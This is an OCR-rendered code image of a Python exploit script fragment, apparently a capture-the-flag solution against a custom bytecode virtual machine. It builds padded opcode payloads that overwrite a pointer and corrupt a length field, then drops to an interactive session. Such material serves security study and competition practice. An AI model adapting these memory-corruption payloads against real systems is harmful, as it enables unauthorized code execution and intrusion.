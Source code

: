 ```py
payload += _lda(0x19e)
payload += _stt()

while(len(payload) < (1 << 12)):
    payload += _ill()

p.send(payload)

######################## overwrite ptr 

payload = b""
payload += _jmp(0x2)
payload += p16(0x8)
# user data
payload += p16((1 << 12) - 1)
payload += b"A\xe8"
#
payload += _lda(0x6) # 0x8
payload += _tat()
payload += _lda(0x4)
payload += _stt()

######################## padding and jump after move backward

payload += _tat()*16

######################## set length and corrupt ptr

payload += _jmp(0x12)
payload += p16(0x1c)
# user data
payload += p16(0xfe8) # 0x14
payload += p16(0x8000) # 0x16
payload += p16(0xfe1) # 0x18
payload += p16(0x10) # 0x1a
#
payload += _lda(0x16) # 0x1c
payload += _tat()
payload += _lda(0x14) 
payload += _stt()

payload += _ldc(0x18)
payload += _ldi()
payload += _sbc(0x1a)
payload += _tat()
payload += _lda(0x18)
payload += _stt()

while(len(payload) < (1 << 12)):
    payload += _ill()

p.send(payload)

p.interactive()
```